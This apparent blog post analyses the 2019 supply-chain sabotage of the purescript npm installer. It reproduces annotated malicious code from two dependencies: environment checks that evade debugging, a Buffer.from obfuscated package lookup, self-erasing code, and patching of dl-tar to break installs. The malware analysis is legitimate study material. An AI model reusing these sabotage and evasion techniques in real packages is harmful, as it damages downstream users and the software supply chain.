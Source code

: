 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

```const tasks = [PassThrough];
//Create tasks array containing the Passthrough Stream Constructor.
//Call tasks.unshift twice, so that it winds up at index 2 later.
  if (argLen === 2) {
    if (typeof args[1] !== 'function') {
      throw new TypeError(`Expected a function to compare two package versions, but got ${
        inspectWithKind(args[1])
      }.`);
    }
  } else {
    // call  tasks.unshift 1
    tasks.unshift(resolveSemverFromNpm);
  }
  //call tasks.unshift 2. Now the PassThrough constructor is at index 2 in the tasks array.
  tasks.unshift(resolveFromNpm(modulePkgId));

  try {
    const results = await Promise.all(tasks);
    let parent = module;
    //Here comes a do-while loop that works out how the code is being run,
      //by inspecting the parent property of each module in the chain.
        //Check out the path.endsWith("cli")
    do {
      parent = parent.parent;

      try {
        const {path} = parent;
        //the attacker is deciding whether or not to run the exploit code,
        //by checking on the version of the purescript npm installer,
        //and if there is a .git working directory.  
        //If the code detects a .git working directory, it'll skip the exploit.
        //This is because .git directories aren't present in production environments,
        //so it makes debugging this issue way harder.
        // The intent is to  determine if a particular version of an installer is being run,
        //and if the code is being run in a environment where it could be easily debugged!
        if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
          parent = 'npm';
          break;
        }
      } catch (_) {}
    } while (parent);
    //The purpose of this parent variable is just the layup for the exploit code if
      //the above conditions are met to allow for it.
    if (typeof parent !== 'string') {
      return results[2];
      //here's that [2] what's happening here is an if statement
      //returning the PassThrough constructor
      //in the case where the malicious code is being run,
      //this breaks a related function to pull down some
      //packages to complete the building of the software:
    }
  const request = loadFromCwdOrNpm("request"); request("https://github.com/.../archive.tar.gz").pipe(...);```



#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

```let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");
//You'll see the same check here if the code is running in a debug or non production environment.
//But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:
do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||
      [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {
      parent = "npm";
      break;
    }
  } catch (_) {}
} while (parent);
if (typeof parent !== "string") {
  const px = require.resolve(
    // `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.
    Buffer.from([100, 108, 45, 116, 97, 114]).toString()
    //store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!
  );
  //this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex
  //`/\n\s*cb\(null, chunk\`` with empty strings, the result is that `dl-tar` users can't install the project. -The sabotage is complete.
  try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}
  try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}```




#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.
